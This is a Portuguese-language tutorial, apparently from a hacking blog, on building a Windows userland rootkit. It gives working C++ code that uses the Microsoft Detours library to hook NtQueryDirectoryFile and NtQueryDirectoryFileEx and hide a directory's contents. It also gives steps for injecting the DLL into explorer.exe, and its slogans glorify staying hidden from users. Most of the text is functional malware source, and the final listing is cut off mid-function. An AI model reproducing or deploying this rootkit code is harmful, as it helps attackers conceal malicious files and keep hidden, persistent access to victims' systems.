








Autor: @br0sck
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⣿⣿⣿⣿⣶⣤ ⣤⣤⣤⣤⡀ ⣤⣤⣤⣤⡀ ⣿⣿⣿⣿⣿⣿ ⣿⣿ ⣿⣿ ⣿⣿⣿⣿⣿⣿ ⣿⣿⣿⣿⣿⣿
⠀⠀⠀⠀⠀⠀⡀⢄⢮⡳⣶⢭⣖⣢⡤⢀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⣿⣿⣿⣿⣿⣿⡇ ⣿⣿⣿⣿⣿⡇ ⣿⣿⣿⣿⣿⡇ ⣿⣿⣿⣿⣿⣿ ⣿⣿ ⣿⣿ ⣿⣿ ⣿⣿⣿⣿⣿⣿
⠀⠀⢀⢤⣢⣵⣾⣾⣿⣿⣿⣹⣿⣿⣿⣿⣶⣯⣵⣒⡠⢄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⣿⣿⣶⣶⣿⣿⠇ ⣿⣿⠁⠈⣿⣿ ⣿⣿⠁⠈⣿⣿ ⣿⣿ ⣿⣿⣴⣿⠇ ⣿⣿ ⣿⣿
⠀⠀⢸⣎⣿⣿⣿⣿⣿⡿⠛⠛⠻⣿⣿⣿⣿⣿⣿⡇⣿⣟⣵⣦⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⣿⣿⣿⠿⠛⠁ ⣿⣿ ⣿⣿ ⣿⣿ ⣿⣿ ⣿⣿ ⣿⣿⣿⠏ ⣿⣿ ⣿⣿
⠀⠀⢸⡇⠼⣿⣿⣿⡟⠀⢠⣤⢸⡊⢻⣿⡿⣿⣿⡇⣿⣿⣷⣝⣕⢦⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⣿⣿⣷⣤⡀ ⣿⣿ ⣿⣿ ⣿⣿ ⣿⣿ ⣿⣿ ⣿⣿⣿⣷⡄ ⣿⣿ ⣿⣿
⠀⠀⢸⡇⢑⢻⣿⣿⣧⡀⣅⡡⣠⠆⠹⣿⣿⣿⣿⣷⣿⣿⣿⣿⣷⢟⢯⠢⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⣿⣿⠉⠻⣷⡄ ⣿⣿⣀⣀⣿⣿ ⣿⣿⣀⣀⣿⣿ ⣿⣿ ⣿⣿ ⠙⣿⣇ ⣿⣿ ⣿⣿
⠀⠀⢸⡇⣸⢉⢿⣯⣿⣿⣶⣧⣤⣰⣾⣿⡟⠽⣋⣈⢿⣿⣿⣿⣿⢸⣷⣝⠮⡢⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⣿⣿ ⢹⣿ ⣿⣿⣿⣿⣿⠇ ⣿⣿⣿⣿⣿⠇ ⣿⣿ ⣿⣿ ⠘⣿⣷ ⣿⣿ ⣿⣿
⠀⠀⢸⣷⣿⠠⣞⢿⣿⣿⣿⣿⢟⡫⡗⡢⡑⢭⣗⡺⢷⣙⠿⣿⣿⣼⣿⢿⣷⣍⣎⡢⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⣿⣿ ⣿⣿ ⠉⠉⠉⠉ ⠉⠉⠉⠉ ⣿⣿ ⣿⣿ ⠈⣿⣿ ⣿⣿⣿⣿⣿⣿ ⣿⣿
⠀⠀⢸⣿⣿⣼⡏⠗⢝⢿⣿⡈⢥⣿⠞⡜⡼⣾⣛⢿⣛⣻⣷⣰⠹⣻⣿⣿⣿⣿⣿⣮⡪⡢⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣸⣿⣿⣾⡇⠄⠁⠋⣊⢟⠬⡻⣯⡵⣣⡻⣟⡦⢾⣿⣋⣇⢉⣿⣿⣿⣿⣿⣿⣿⣿⣿⡪⡢⡀⠀⠀⠀⠀⠀⠀⠀
⠠⠰⣹⢔⠹⣿⣿⣫⠁⠀⢰⡌⢿⡎⢜⠝⡿⣟⡫⢗⡫⠏⠙⢫⣵⠘⣄⡘⠿⣿⣿⣿⣿⣿⣿⣿⣾⣮⡢⡀⠀⠀⠀⠀ Rootkits não são maliciosos, são apenas incompreendidos.
⠀⠀⠀⠄⡚⠘⢿⣯⡅⠀⢸⠇⠄⠀⠀⠉⠲⠔⡱⡻⢿⣽⣁⠢⢼⣶⣿⣿⣷⣬⡉⡹⠿⣿⣿⣿⣿⣿⣯⡪⡢⡀⠀⠀ Eles só preferem ficar ocultos ¯\_(ツ)_/¯
⠀⠀⠠⠀⢀⠄⠎⢿⣷⠀⢸⠇⡄⡆⡌⠁⡂⠀⡘⢠⠱⠨⢛⢿⣶⣬⡉⡹⠻⣿⣷⣢⣄⠙⢿⣿⣿⣿⣿⡿⠞⢞⡆⠀⠀
⠀⠀⠀⠀⠈⠈⠒⠊⡻⡇⡄⡒⠤⡀⠁⠃⠁⢠⢀⠁⠀⠀⠂⢉⢊⠝⠿⣶⡤⡘⢿⣿⣷⣝⢦⣙⠿⡛⣉⣼⣾⣿⡇⠀⠀ Persistência é poder. Invisibilidade é poder absoluto.
⠀⠀⠀⠀⠀⠘⠠⢬⠐⠱⠺⢵⡣⢆⡅⢆⡎⠘⠈⠘⢰⠰⠀⠃⠎⡔⠸⢐⠹⢻⢵⡩⣛⢟⢋⣡⣵⣿⡟⢹⢿⣿⡇⠀⠀
⠀⠀⠀⠀⠀⠀⠂⠄⡈⢀⠀⠑⢉⢓⠾⡥⢨⠐⡠⣀⠂⠆⡄⡄⡀⠐⢀⠀⡌⡖⢌⠪⣤⢾⣿⣿⣿⣏⣍⢰⣿⢿⡇⢤⠀ A primeira regra do rootkit: você não fala sobre rootkits.
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠋⠐⠁⠀⠈⠐⠱⠁⢊⢅⡃⠉⢒⠤⡁⠃⠦⢌⠘⠀⠁⠀⠂⣿⣿⣿⣿⣿⣿⣧⣸⣾⣿⡇⢠⠰
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠂⠄⠄⡀⠂⠅⠌⠕⣰⢈⠒⠵⢢⢎⣐⠀⡃⠄⠀⣿⢷⣿⣿⣿⣟⣯⣷⠿⢻⢱⠂⠈
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠀⠀⠀⠀⠈⠀⢉⢒⠄⡂⡖⡩⢒⠄⠀⣿⡿⣟⣽⣾⡟⡏⠆⠀⠑⠈⠀⠀ Para controlar um sistema,
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠄⠂⠈⠈⢑⠣⢇⡎⠄⣿⣿⡿⡉⠃⠃⠀⠀⠀⠀⠀⠀⠀ primeiro controle no que ele acredita.
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠐⠀⠀⠁⠁⠀⠎⠛⠉⡀⠉⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀
Você não pode matar o que não pode ver.
╔════════════════════════[Sumário]════════════════════════╗
║ ║
║ 1. Introdução ║
║ 2. O que é a Biblioteca Detours? ║
║ 2.1 Conhecimentos/Experiências Neccessárias ║
║ 2.2 Materiais para Desenvolvimento ║
║ 3. Criando o Projeto ║
║ 3.1 Incluindo a Biblioteca Detours ║
║ 3.2 Definindo a Estrutura de uma NTAPI ║
║ 3.3 Escrevendo o Código ║
║ 3.4 Código Final ║
║ 4. Conclusão ║
║ 5. Referências ║
║ ║
╚═════════════════════════════════════════════════════════╝
Introdução
No cenário digital de hoje, onde a conectividade está cada vez mais presente nos nossos dias, a segurança cibernética se tornou uma preocupação central tanto para pessoas quanto para organizações. Entre as ameaças nesse ambiente virtual, os rootkits são um tipo de malware sofisticado. Esses programas maliciosos têm a capacidade de se esconder profundamente no sistema operacional de um computador, permitindo que invasores tenham acesso não autorizado e persistente aos recursos do sistema sem serem detectados pelos usuários.
Este artigo explora detalhadamente a criação dos rootkits para o sistema operacional Windows. Vamos explorar o desenvolvimento de um rootkit ring 3, conhecido também como userland rootkit, que opera no nível de privilégio do usuário no sistema operacional Windows. Embora seja menos privilegiado do que os rootkits ring 0 (kernel mode rootkit), esse tipo ainda pode executar atividades maliciosas discretas e muitas vezes imperceptíveis se o usuário mal-intencionado desenvolver bem seu programa malicioso.
A imagem abaixo mostra as camadas de um sistema operacional.

Antes de começarmos a por as mãos na massa, precisamos conhecer o ambiente em que vamos trabalhar.
O que é a Biblioteca Detours?
Detours é um pacote de software para monitorar e instrumentar chamadas de API no Windows. Os desvios têm sido usados por muitos ISVs e também pelas equipes de produto da Microsoft.
Conhecimentos/Experiências Necessárias
• Linguagem de programação: C/C++.
• Windows NT Application Programming Interface (NTAPI).
• Dynamic Link Library (DLL).
• Experiências com NTAPIs e Windows APIs.
• O que são rootkits e como operam.
Materiais para Desenvolvimento
• Sistema Operacional: Windows 10.
• Softwares: Microsoft Visual Studio 2022, Process Hacker.
• Biblioteca: Detours (https://github.com/microsoft/detours).
• Ferramentas, Compiladores: Ferramentas de compilação MSVC v143, C++ Build Insights.
Criando o Projeto
Abra o Visual Studio 2022 e crie um novo projeto com o modelo "Biblioteca de Vínculo Dinâmico (DLL)" e clique em "Próximo". Dê um nome para seu projeto e clique em "Criar".

Incluindo a Biblioteca Detours
Antes de incluir a biblioteca Detours, é preciso compilá-la. Você consegue encontrar o código fonte da biblioteca no próprio Github da Microsoft.
Após compilar a biblioteca, você pode incluí-la em seu projeto. Abaixo está um link de um vídeo ensinando a importar arquivos "lib".
Link: https://www.youtube.com/watch?v=j13iYc6zRuk
É importante mover os arquivos "detours.h" e "detver.h" para o diretório do seu projeto, o mesmo diretório que haverá o arquivo principal "dllmain.cpp". Posteriormente, inclua eles no seu projeto através do "Gerenciador de Soluções" do Visual Studio 2022.

Definindo a Estrutura de uma NTAPI
Para começarmos a escrever nossas primeiras linhas, precisamos definir qual NTAPIserá interceptada e qual será nosso objetivo explorando ela. A NTAPI que iremos usar nesse exemplo será a "NtQueryDirectoryFile" e "NtQueryDirectoryFileEx". Nosso objetivo será abusar dessa API para esconder arquivos de um diretório. Podemos encontrar a documentação dela no próprio site da Microsoft.
NtQueryDirectoryFile Sintaxe:
__kernel_entry NTSYSCALLAPI NTSTATUS NtQueryDirectoryFile(
[in] HANDLE FileHandle,
[in, optional] HANDLE Event,
[in, optional] PIO_APC_ROUTINE ApcRoutine,
[in, optional] PVOID ApcContext,
[out] PIO_STATUS_BLOCK IoStatusBlock,
[out] PVOID FileInformation,
[in] ULONG Length,
[in] FILE_INFORMATION_CLASS FileInformationClass,
[in] BOOLEAN ReturnSingleEntry,
[in, optional] PUNICODE_STRING FileName,
[in] BOOLEAN RestartScan
);
NtQueryDirectoryFileEx Sintaxe:
__kernel_entry NTSYSCALLAPI NTSTATUS NtQueryDirectoryFileEx(
[in] HANDLE FileHandle,
[in, optional] HANDLE Event,
[in, optional] PIO_APC_ROUTINE ApcRoutine,
[in, optional] PVOID ApcContext,
[out] PIO_STATUS_BLOCK IoStatusBlock,
[out] PVOID FileInformation,
[in] ULONG Length,
FILE_INFORMATION_CLASS FileInformationClass,
[in] ULONG QueryFlags,
[in, optional] PUNICODE_STRING FileName
);
Vamos incluí-las em nosso arquivo "dllmain.cpp":
#include "pch.h"
#include <Windows.h>
#include <winternl.h>
#include "detours.h"
typedef NTSTATUS(NTAPI* typedefNtQueryDirectoryFile)(
HANDLE FileHandle,
HANDLE Event,
PIO_APC_ROUTINE ApcRoutine,
PVOID ApcContext,
PIO_STATUS_BLOCK IoStatusBlock,
PVOID FileInformation,
ULONG Length,
FILE_INFORMATION_CLASS FileInformationClass,
BOOLEAN ReturnSingleEntry,
PUNICODE_STRING FileName,
BOOLEAN RestartScan
);
typedef NTSTATUS(NTAPI* typedefNtQueryDirectoryFileEx)(
HANDLE FileHandle,
HANDLE Event,
PIO_APC_ROUTINE ApcRoutine,
PVOID ApcContext,
PIO_STATUS_BLOCK IoStatusBlock,
PVOID FileInformation,
ULONG Length,
FILE_INFORMATION_CLASS FileInformationClass,
ULONG QueryFlags,
PUNICODE_STRING FileName
);
Também precisamos criar duas variáveis estáticas sobre as duas NTAPIs que iremos armazenar o endereço delas na próxima função que iremos criar.
static typedefNtQueryDirectoryFile originalNtQueryDirectoryFile;
static typedefNtQueryDirectoryFileEx originalNtQueryDirectoryFileEx;
Agora vamos começar a criar a função responsável por iniciar o hooking nas NTAPIs. Escreva as seguintes linhas de código:
BOOL StartHook() {
HMODULE ntdllHandle = GetModuleHandleA("ntdll.dll");
originalNtQueryDirectoryFile = (typedefNtQueryDirectoryFile)GetProcAddress(ntdllHandle, "NtQueryDirectoryFile");
originalNtQueryDirectoryFileEx = (typedefNtQueryDirectoryFileEx)GetProcAddress(ntdllHandle, "NtQueryDirectoryFileEx");
return 0;
}
• HMODULE ntdllHandle = GetModuleHandleA("ntdll.dll");: Essa linha será responsável por obter o handle do módulo "ntdll.dll".
• originalNtQueryDirectoryFile = (typedefNtQueryDirectoryFile)GetProcAddress(ntdllHandle, "NtQueryDirectoryFile");: Essa linha armazenará o endereço da função "NtQueryDirectoryFile" na variável que definimos acima chamada "originalNtQueryDirectoryFile". O mesmo ocorre na próxima linha.
Antes de continuarmos, precisamos conhecer algumas funções da biblioteca Detours:
• DetourRestoreAfterWith: Esta função é usada para especificar se as detecções feitas por DetourTransactionCommit devem ser mantidas ou revertidas.
• DetourTransactionBegin: Inicia uma nova transação Detours. Uma transação Detours é uma série de detours que são aplicados ou revertidos de uma vez.
• DetourUpdateThread: Atualiza detours em todas as threads de um processo para refletir mudanças feitas durante uma transação Detours.
• DetourAttach: Anexa um detour a uma função, redirecionando a execução para uma função personalizada antes da função original.
• DetourDetach: Remove um detour previamente anexado, restaurando a função original.
• DetourTransactionCommit: Finaliza uma transação Detours, aplicando ou revertendo as mudanças feitas nas funções alvo.
Escrevendo o Código
Após essa explicação, vamos continuar escrevendo as linhas de código de função "StartHook".
BOOL StartHook() {
HMODULE ntdllHandle = GetModuleHandleA("ntdll.dll");
originalNtQueryDirectoryFile = (typedefNtQueryDirectoryFile)GetProcAddress(ntdllHandle, "NtQueryDirectoryFile");
originalNtQueryDirectoryFileEx = (typedefNtQueryDirectoryFileEx)GetProcAddress(ntdllHandle, "NtQueryDirectoryFileEx");
DetourRestoreAfterWith();
DetourTransactionBegin();
DetourUpdateThread(GetCurrentThread());
DetourAttach(&(PVOID&)originalNtQueryDirectoryFile, HookedNtQueryDirectoryFile);
DetourAttach(&(PVOID&)originalNtQueryDirectoryFileEx, HookedNtQueryDirectoryFileEx);
DetourTransactionCommit();
return 0;
}
static NTSTATUS NTAPI HookedNtQueryDirectoryFile(...) {...}
static NTSTATUS NTAPI HookedNtQueryDirectoryFileEx(...) {...}
• DetourUpdateThread(GetCurrentThread());: Irá atualizar os detours em toda as threads do processo.
• DetourAttach(&(PVOID&)originalNtQueryDirectoryFile, HookedNtQueryDirectoryFile);: Ela interceptará a NTAPI original onde redirecionará para nossa função personalizada "HookedNtQueryDirectoryFile". O mesmo ocorre na linha debaixo.
Chegamos na parte mais interessante, onde iremos começar a recriar as NTAPIs interceptadas. Vamos escrever as seguintes linhas:
static NTSTATUS NTAPI HookedNtQueryDirectoryFile(HANDLE FileHandle, HANDLE Event, PIO_APC_ROUTINE ApcRoutine, LPVOID ApcContext, PIO_STATUS_BLOCK IoStatusBlock, LPVOID FileInformation, ULONG Length, FILE_INFORMATION_CLASS FileInformationClass, BOOLEAN ReturnSingleEntry, PUNICODE_STRING FileName, BOOLEAN RestartScan) {
NTSTATUS status = STATUS_NO_MORE_FILES;
WCHAR dirPath[MAX_PATH + 1] = { NULL };
}
• NTSTATUS status = STATUS_NO_MORE_FILES;: A variável "status" armazenará o valor "0x80000006", que é um tipo de código de status para identificar se existe mais algum arquivo para ser listado dentro de um diretório. Defina um macro em seu código escrevendo #define STATUS_NO_MORE_FILES 0x80000006. Você pode encontrar a referências de todos os código de status em NTSTATUS values.
• WCHAR dirPath[MAX_PATH + 1] = { NULL };: A variável armazenará um valor nulo que será responsável por armazenar o caminho acessado após o hook inicializar.
[...]
if (GetFinalPathNameByHandleW(FileHandle, dirPath, MAX_PATH, FILE_NAME_NORMALIZED)) {
if (StrStrIW(dirPath, L"C:\\Windows\\Temp\\nothing_here"))
RtlZeroMemory(FileInformation, Length);
else
status = originalNtQueryDirectoryFile(FileHandle, Event, ApcRoutine, ApcContext, IoStatusBlock, FileInformation, Length, FileInformationClass, ReturnSingleEntry, FileName, RestartScan);
}
return status;
• GetFinalPathNameByHandleW(FileHandle, dirPath, MAX_PATH, FILE_NAME_NORMALIZED): Essa função obterá o caminho completo acessado através de seu HANDLE FileHandle, que é um parâmetro nativo da NTAPI "NtQueryDirectoryFile" e "NtQueryDirectoryFileEx".
• if (StrStrIW(dirPath, L"C:\\Windows\\Temp\\nothing_here")): Realizará uma comparação para identificar se o caminho acessado é "C:\Windows\Temp\nothing_here".
• * Caso seja: Ele irá limpar todo o conteúdo da variável "FileInformation" com a função "RtlZeroMemory".
• * Caso não seja: Todos os argumentos passados na função "HookedNtQueryDirectoryFileEx" será redirecionado para "originalNtQueryDirectoryFileEx" e armazenará um novo código de status NT da variável "status". Essa é a única linha em que você verá a variável NTSTATUS status ser alterada por outro valor, pois ao definir o valor dessa variável para "STATUS_NO_MORE_FILES", você estará dizendo o mesmo que "Esta pasta está vazia.", aquela mensagem clássica do Windows.
O mesmo é feito na função "HookedNtQueryDirectoryFileEx":
static NTSTATUS NTAPI HookedNtQueryDirectoryFileEx(HANDLE FileHandle, HANDLE Event, PIO_APC_ROUTINE ApcRoutine, PVOID ApcContext, PIO_STATUS_BLOCK IoStatusBlock, PVOID FileInformation, ULONG Length, FILE_INFORMATION_CLASS FileInformationClass, ULONG QueryFlags, PUNICODE_STRING FileName) {
NTSTATUS status = STATUS_NO_MORE_FILES;
WCHAR dirPath[MAX_PATH + 1] = { NULL };
if (GetFinalPathNameByHandleW(FileHandle, dirPath, MAX_PATH, FILE_NAME_NORMALIZED)) {
if (StrStrIW(dirPath, L"C:\\Windows\\Temp\\nothing_here"))
RtlZeroMemory(FileInformation, Length);
else
status = originalNtQueryDirectoryFileEx(FileHandle, Event, ApcRoutine, ApcContext, IoStatusBlock, FileInformation, Length, FileInformationClass, QueryFlags, FileName);
}
return status;
}
Posteriormente, precisamos criar a função para reverter os hooks feitos:
BOOL StopHook() {
DetourTransactionBegin();
DetourUpdateThread(GetCurrentThread());
DetourDetach(&(PVOID&)originalNtQueryDirectoryFile, HookedNtQueryDirectoryFile);
DetourDetach(&(PVOID&)originalNtQueryDirectoryFileEx, HookedNtQueryDirectoryFileEx);
DetourTransactionCommit();
return 0;
}
Explicando a parte principal dessas linhas de código:
• DetourDetach(&(PVOID&)originalNtQueryDirectoryFile, HookedNtQueryDirectoryFile);: Ficará responsável por desanexar o hook feito, passando como primeiro argumento o endereço da NTAPI "NtQueryDirectoryFile" original, convertendo ela para um ponteiro para void, e no próximo argumento definindo o endereço da função "HookedNtQueryDirectoryFileEx". O mesmo serve para a linha debaixo.
Está quase pronto, agora só precisamos ajustar a função "DllMain" para chamar as funções criadas:
BOOL APIENTRY DllMain( HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
switch (ul_reason_for_call) {
case DLL_PROCESS_ATTACH:
StartHook();
break;
case DLL_THREAD_ATTACH:
break;
case DLL_THREAD_DETACH:
break;
case DLL_PROCESS_DETACH:
StopHook();
break;
}
return TRUE;
}
Compile seu código e valide se está funcionando perfeitamente através dos seguintes passos:
1 - Crie o diretório "C:\Windows\Temp\nothing_here" e adicione um arquivo qualquer.

2 - Abra a ferramenta Process Hacker e pesquise por "explorer.exe". Clique com o botão direito no processo e vá em "Miscellaneous > Inject DLL".

3 - Selecione a sua DLL compilada.

3 - Vá para o diretório "C:\Windows\Temp\nothing_here" e clique com o botão direito e clique em "Atualizar".

Todos os arquivos que foram armazenados dentro deste diretório não serão mostrados para o usuário.

Código Final
// dllmain.cpp
#include "pch.h"
#include <Windows.h>
#include <winternl.h>
#include <stdio.h>
#include <shlwapi.h>
#include "detours.h"
#pragma comment(lib, "shlwapi.lib")
#define STATUS_NO_MORE_FILES 0x80000006
typedef NTSTATUS(NTAPI* typedefNtQueryDirectoryFile)(
HANDLE FileHandle,
HANDLE Event,
PIO_APC_ROUTINE ApcRoutine,
PVOID ApcContext,
PIO_STATUS_BLOCK IoStatusBlock,
PVOID FileInformation,
ULONG Length,
FILE_INFORMATION_CLASS FileInformationClass,
BOOLEAN ReturnSingleEntry,
PUNICODE_STRING FileName,
BOOLEAN RestartScan
);
typedef NTSTATUS(NTAPI* typedefNtQueryDirectoryFileEx)(
HANDLE FileHandle,
HANDLE Event,
PIO_APC_ROUTINE ApcRoutine,
PVOID ApcContext,
PIO_STATUS_BLOCK IoStatusBlock,
PVOID FileInformation,
ULONG Length,
FILE_INFORMATION_CLASS FileInformationClass,
ULONG QueryFlags,
PUNICODE_STRING FileName
);
static typedefNtQueryDirectoryFile originalNtQueryDirectoryFile;
static typedefNtQueryDirectoryFileEx originalNtQueryDirectoryFileEx;
static NTSTATUS NTAPI HookedNtQueryDirectoryFile(HANDLE FileHandle, HANDLE Event, PIO_APC_ROUTINE ApcRoutine, LPVOID ApcContext, PIO_STATUS_BLOCK IoStatusBlock, LPVOID FileInformation, ULONG Length, FILE_INFORMATION_CLASS FileInformationClass, BOOLEAN ReturnSingleEntry, PUNICODE_STRING FileName, BOOLEAN RestartScan) {
NTSTATUS status = STATUS_NO_MORE_FILES;
WCHAR dirPath[MAX_PATH + 1] = { NULL };
if (GetFinalPathNameByHandleW(FileHandle, dirPath, MAX_PATH, FILE_NAME_NORMALIZED)) {
if (StrStrIW(dirPath, L"C:\\Windows\\Temp\\nothing_here"))
RtlZeroMemory(FileInformation, Length);
else
